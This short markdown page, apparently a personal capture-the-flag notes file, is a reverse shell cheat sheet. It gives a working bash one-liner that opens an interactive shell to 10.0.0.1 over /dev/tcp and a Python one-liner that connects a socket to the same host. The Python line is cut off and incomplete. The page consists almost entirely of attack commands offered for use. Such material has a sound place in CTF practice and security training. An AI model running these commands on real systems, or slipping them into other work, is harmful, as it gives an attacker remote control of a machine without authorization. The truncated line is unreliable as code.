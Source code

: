 # My Personal list of CTF commands

## Reverse Shell Cheat Sheet

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Python

```python
python -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(("10.0.0.1", 1234))
```
